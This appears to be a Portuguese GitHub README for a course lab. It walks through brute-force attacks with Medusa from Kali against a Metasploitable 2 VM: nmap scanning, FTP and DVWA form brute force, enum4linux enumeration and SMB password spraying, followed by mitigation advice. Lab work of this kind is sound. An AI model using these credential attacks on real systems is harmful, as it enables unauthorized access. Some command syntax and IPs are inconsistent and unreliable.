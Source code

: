 **Projeto: Ataques de Força Bruta com Kali + Medusa (Ambiente Controlad**o)

Este repositório contém a documentação do desafio DIO: montar um ambiente com Kali Linux e Metasploitable 2, usar a ferramenta Medusa para executar ataques de força bruta em serviços (FTP, formulários web, SMB), registrar comandos, wordlists simples, evidências e recomendações de mitigação. Tudo pensado para ambiente de teste controlado (VirtualBox-host-only) rede interna.

⚠️ **Aviso legal: execute estes testes apenas em ambientes controlados e com autorização explícita. Ataques contra sistemas que você não possui/permissão são ilegais.**

* Conteúdo do repositório
* README.md (este arquivo)
* commands.txt (todos os comandos usados)
* images/ (screenshots)

**Objetivos do projeto:**

1.  Configurar duas VMs (Kali e Metasploitable 2) no VirtualBox com rede host-only / interna.
2.  Realizar ataques de força bruta com Medusa em FTP, formulário web e password spraying no SMB (com enumeração de usuários).
3.  Documentar wordlists, comandos, validação de acesso e recomendações de mitigação.
4.  Estrutura das VMs (configuração sugerida)
5.  Instalar VirtualBox.
6.  Criar rede Host-Only (ou Internal Network) em VirtualBox (ex: vboxnet0).
7.  VM Kali: adaptador 1 → NAT (internet, opcional para instalar pacotes), adaptador 2 → Host-Only vboxnet0 (IP 192.168.56.102).
8.  VM Metasploitable2: 1 adaptador → Host-Only vboxnet0 (IP 192.168.56.101).
9.  Verifique conectividade: no Kali, ping 192.168.56.101.
10. Kali Linux ( medusa, nmap, enum4linux)
11. Metasploitable 2 (contém serviços FTP, SMB, DVWA etc).
12. Medusa (audit tool para brute force; módulo ex.: ftp, http\_form, smbnt).

**Comandos - varredura inicial**

Descobrir serviços com nmap:

```bash
nmap -sV -p 21,22,80,139,445 192.168.56.101
```

**Ataque FTP com Medusa**

Objetivo: força bruta contra usuário conhecido (ex: admin) com uma wordlist pequena.

Testar usuário admin com wordlists:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

**Explicação das flags:**

-h host alvo
-u usuário único (use -U para arquivo de usuários)
-P caminho da wordlist de senhas
-M ftp módulo FTP
-T 6 threads (ajuste conforme ambiente)
-f encerra ao encontrar credenciais válidas

Validação, após encontrar credenciais faça login com ftp:

```bash
ftp 192.168.56.101
```
**Ataque a formulário web (DVWA) com Medusa (http\_form)**

DVWA costuma ter login em /dvwa/login.php. Exemplo de uso do módulo http\_form (sintaxe pode variar conforme versão do Medusa; ajustar conforme sua instalação):

Exemplo genérico de http\_form (substitua os campos conforme o formulário real)

```bash
-m PAGE: medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
-m FORM: 'username=^USER^\&password=^PASS^\&Login=Login' \
-m 'FAIL=Login failed' -t 6
```

Validação: tente fazer login no navegador usando as credenciais encontradas

**Password spraying em SMB (com enumeração de usuários)**

* Fluxo recomendado:
* Enumerar usuários (usar enum4linux)
* Fazer password spraying: testar um conjunto pequeno de senhas em muitos usuários (evita lockouts por tentativa excessiva em um único usuário).

Enumeração com enum4linux:

```bash
enum4linux -a 192.168.56.101 | tee enum4_output.txt
```
Crie wordlists conforme ajuste:

```bash
echo -e "user\nmsfadmin\nservice" > smb\_users.txt

echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas spray.txt
```

Medusa smbnt (sintaxe genérica — ajuste conforme versão):

Usando arquivo de usuários (-U) e uma pequena wordlist (-P)

```bash
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

* Os parâmetros -t 2 (threads) -T 50 (timeout em segundos)
* ferramentas SMB de brute‑force normalmente tentam combinações de usuário × senha. Se você fornece uma lista de usuários e uma lista de senhas, a ordem pode ser: vertical (por usuário): para cada usuário tenta muitas senhas; ou horizontal / spraying: para vários usuários tenta poucas senhas comuns.

Validação, se houver credenciais válidas, usar smbclient para acesso:

```bash
smbclient -L //192.168.56.20 -U msfadmin
```
**Recomendações de mitigação (boas práticas):**

* Política de senhas fortes: comprimento mínimo, complexidade, bloqueio após tentativas falhas.
* Rate-limiting e account lockout (com política para evitar lockouts errôneos).
* Autenticação multifator (MFA) onde possível.
* Monitoramento/alertas: IDS/IPS, logs de autenticação e alertas para muitas tentativas de login.
* Segregação de serviços e atualizações (manter serviços atualizados).
* Hardening: desabilitar serviços desnecessários; configurar FTP seguro (SFTP/FTPS) ou desativar FTP.
* Whitelist de IPs para serviços administrativos, quando aplicável.
* Educação: conscientizar sobre reutilização de senhas e engenharia social.



